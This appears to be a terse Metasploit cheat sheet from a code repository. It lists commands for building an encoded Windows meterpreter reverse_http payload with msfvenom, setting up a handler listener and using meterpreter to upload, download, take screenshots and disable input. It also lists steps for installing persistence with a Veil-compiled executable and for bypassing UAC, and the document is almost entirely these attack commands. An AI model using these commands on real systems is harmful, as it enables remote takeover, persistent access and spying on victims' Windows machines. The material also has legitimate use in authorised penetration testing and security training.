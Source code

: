 installation
==============
- apt-get install metasploit-framework
- /opt/metasploit-framework/bin/msfconsole
- /opt/metasploit-framework/bin/msfdb
- msfdb init

start the program
====================
- service postgresql start
- service metasploit start
- msfconsole

update
========
- msfupdate
- apt-get dist-upgrade

search
========
- search -h

use
====
- use exploit/multi/handler
- set PAYLOAD windows/x64/meterpreter/reverse_http
- show options
- set/unset _options
- run

create encrypted payload with msfvenum
========================================
- msfvenom --help-format
- msfvenom -l encoders
- msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_http LPORT=8080 LHOST=10.0.0.6 -f exe -e x86/shikata_ga_nai  -i 4 -b '\x00\xff' > ~/Desktop/persistence.exe


metepreter
============
- upload _linux_path_and_file(or just home_dir) _win_path 
- download _file
- execute -f _app.exe(in the directory)
- uictl dis/enable _I/O
- screenshot
- ps

persist connection
==================
- after session is created 
- background 
- use exploit/windows/local/persistence 
- set exe_name connection_services
- set session _id
- show advanced
- set exe::custom /var/lib/veil/output/compiled/post-exploit.exe (specify payload to inject)
- run

acquire admin priviledges (lower than 10)
===========================================
- use exploit/windows/local/bypassuac_injection (PSH)
- 



show target and set target
=============================








